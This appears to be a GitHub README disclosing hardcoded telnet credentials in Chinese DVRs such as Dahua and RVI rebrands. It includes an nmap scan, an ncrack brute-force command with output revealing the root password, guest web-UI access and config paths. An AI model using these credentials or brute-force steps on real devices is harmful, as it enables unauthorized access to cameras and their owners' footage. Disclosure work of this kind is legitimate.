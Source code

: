 # Hardcoded telnet login\password in Chinese DVR, like Dahua, RVI.</h1>
[English](README.md)[Русский](README-ru.md)
Also, it can be rebranded and sell under a different name.
Nmap report looks interesting:
'''
Nmap scan report for 192.168.100.15
Host is up (0.0050s latency).
Not shown: 65527 closed ports

PORT      STATE    SERVICE        VERSION

23/tcp    open     telnet         BusyBox telnetd
81/tcp    open     http           uc-httpd 1.0.0 #Web-ui, You can get guest access with guest\<empty> credentials
445/tcp   filtered microsoft-ds
4090/tcp  open     ssl/omasgport?
9527/tcp  open     unknown
9528/tcp  open     unknown
34567/tcp open     dhanalakshmi? #This port using for remote veiw in CMS
34599/tcp open     unknown

Device type: WAP
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.36
OS details: DD-WRT v24-sp1 (Linux 2.4.36)
Network Distance: 5 hops
Service Info: Host: LocalHost

And, with ncrack i "recover" hardcored telnet creds.
'''
ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
Discovered credentials for telnet on 192.168.100.15 23/tcp:
192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
Ncrack done: 1 service scanned in 27.06 seconds.
Ncrack finished.
'''
Web-ui configuration files are stored in /mnt/mtd/Config/, but i did not understand password hash in file Account1.
Also, in my case sed did not work. Empty password hash - tlJwpbo6.

Still work on this.
